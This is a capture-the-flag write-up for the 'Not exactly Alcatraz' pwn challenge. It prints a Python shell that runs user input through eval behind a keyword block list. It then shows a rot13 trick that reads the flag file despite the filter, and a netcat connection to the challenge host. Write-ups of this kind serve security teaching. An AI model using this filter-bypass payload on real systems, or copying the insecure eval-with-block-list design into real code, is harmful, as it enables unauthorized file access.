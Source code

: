 Not exactly Alcatraz
====================

* Flag: **python_sandboxing:_harder_than_teaching_your_mom_dota**
* File: [pwn200.zip](data/pwn200.zip "pwn200.zip")

![alcatraz](data/alcatraz.png "Not exactly Alcatraz challenge introduction")

Unzipping the challenge file produces a short Python script. Running
this script produces a weakly-sandboxed Python shell; we are directed
by the challenge instructions to connect to a specific machine hosting
the script (`nc 54.69.118.120 6000`), where we can break out of the
sandbox and read the contents of a flag file
(`/home/pybaby/flag.txt`).

```
#!/usr/bin/python

def serve():
    "Serve a request"

    print "baby@sics:~$",

    code = raw_input()

    if validate(code):
        print eval(code)
    else:
        print "#rekt"

def validate(code):
    "Hyper-secure, military grade python sandboxing"

    prohibited_keywords = [
        "import",
        "open",
        "flag",
        "eval",
        "exec"
    ]

    for keyword in prohibited_keywords:
        if keyword in code:
            return False

    return True

def main():
    print """
Welcome to Safe Interactive CPython Shell (SICS)
================================================

Rules:
    - Wash your dishes
    - Don't eat the yellow snow
    - Do not import anything
    - No peeking at files!
"""

    while True:
        serve()

if __name__ == '__main__':
    main()
```

The main restriction is that we can't use the string "flag" in our
code; we can get around this by rot-13 encoding the path to the flag,
and decoding it before reading.

In a test interpreter:

```
>>> "/home/pybaby/flag.txt".encode("rot13")
'/ubzr/clonol/synt.gkg'
```

Connected to the remote interpreter:

```
file('/ubzr/clonol/synt.gkg'.decode("rot13"), "r").read()
baby@sics:~$ flag{python_sandboxing:_harder_than_teaching_your_mom_dota}
```

[« Return to challenge board](../README.md "Return to challenge board")
